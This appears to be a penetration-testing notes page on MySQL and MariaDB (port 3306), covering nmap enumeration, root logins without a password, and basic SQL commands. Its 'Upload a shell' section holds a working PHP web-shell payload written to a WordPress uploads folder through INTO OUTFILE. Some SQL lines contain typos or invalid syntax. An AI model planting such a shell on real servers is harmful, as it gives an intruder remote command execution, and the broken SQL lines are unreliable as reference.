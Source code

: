 ```yaml
---
title: 3306 mariadb mysql
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mariadb
  - port 3306
  - mysql
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.


```shell-session
sudo nmap $ip -sV -sC -p3306 --script mysql*
```




## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

### From Linux

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p<password>

mysql -u root -h <host/IP>

```

### From windows


```cmd-session
mysql.exe -u username -pPassword123 -h $IP
```
## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;

# Select column from table
select usename,password from users;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

## mysql basic commands

See [mysql](mysql.md).


```mysql
# Show datases
SHOW databases;

# Show tables
SHOW tables;

# Create new database
CREATE DATABASE nameofdatabase;

# Delete database
DROP DATABASE nameofdatabase;

# Select a database
USE nameofdatabase;

# Show tablesç
SHOW tables;

# Dump content from nameOftable
SELECT * FROM NameOfTable

# Create a table with some columns in the previously selected database
CREATE TABLE person(nombre VARCHAR(255), edad INT, id INT);

# Modify, add, or remove a column attribute of a table
ALTER TABLE persona MODIFY edad VARCHAR(200);
ALTER TABLE persona ADD description VARCHAR(200);
ALTER TABLE persona DROP edad VARCHAR(200);

# Insert a new row with values in a table
INSERT INTO persona VALUES("alvaro", 54, 1);

# Show all rows from table
SELECT * FROM persona

# Select a row from a table filtering by the value of a given column
SELECT * FROM persona WHERE nombre="alvaro";

# JOIN query
SELECT * FROM oficina JOIN persona ON persona.id=oficina.user_id;

# UNION query. This means, for an attack, that the number of columns has to be the same
SELECT * FROM oficina UNION SELECT * from persona;
```


### Enumeration queries 

```mysql
# Show current user
current_user()
user()

# Show current database
database()
```

